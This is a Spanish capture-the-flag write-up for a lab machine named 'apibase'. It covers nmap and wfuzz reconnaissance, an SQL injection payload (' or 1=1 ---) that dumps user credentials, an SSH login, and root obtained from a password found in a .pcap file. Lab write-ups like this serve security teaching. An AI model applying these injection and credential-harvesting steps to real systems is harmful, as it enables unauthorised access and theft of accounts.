








# Máquina apibase

---

Dificultad -> Fácil

---

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u4 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:ab:09:61:00:7b:cc:18:48:8e:bf:8d:3d:e4:cd:b5 (RSA)
|   256 42:0c:71:44:7c:13:ba:8f:b7:82:35:f2:b3:f7:b9:ff (ECDSA)
|_  256 85:95:6c:96:ac:a1:f0:3e:1e:0d:c1:c8:b0:6f:bb:1d (ED25519)
5000/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.9.2)
|_http-title: Site doesn't have a title (application/json).
|_http-server-header: Werkzeug/1.0.1 Python/3.9.2
```

Entro al `5000` desde el navegador y encuentro una respuesta en json de lo que parece una api:



Me dice `No endpoint selected` que use `/add` para añadir un usuario o `/users` para ver usuarios

En `users`, me dice que me falta un parámetro:



Con wfuzz, busco el parámetro que falta filtrando por carácteres `--hh 35` 

```shell
wfuzz -c -w /usr/share/wordlists/dirb/common.txt -t 200 -u 172.17.0.2:5000/users?FUZZ=test --hh 35
```



Con este parámetro me devuelve `User not found` 


Pruebo a buscar usuarios con wfuzz pero no encuentro nada

Probando, pruebo con una comilla simple en el campo de usuario `http://172.17.0.2:5000/users?username='` y me da un error de sql:



Sabiendo esto, hago una injección sql en el parámetro `http://172.17.0.2:5000/users?username=' or 1=1 ---` y consigo la información de los usuarios:



Pruebo con estas credenciales en ssh y consigo entrar con `pingu:pinguinaso` 



Hago `sudo -l`, no hay sudo, busco con `find` por permisos SUID, nada.

Buscando en los archivos, encuentro en el `/home` un archivo `.pcap` intento leerlo con `cat` y encuentro las credenciales de root:



Hago un su con la contraseña `balulero`:



y soy root :)
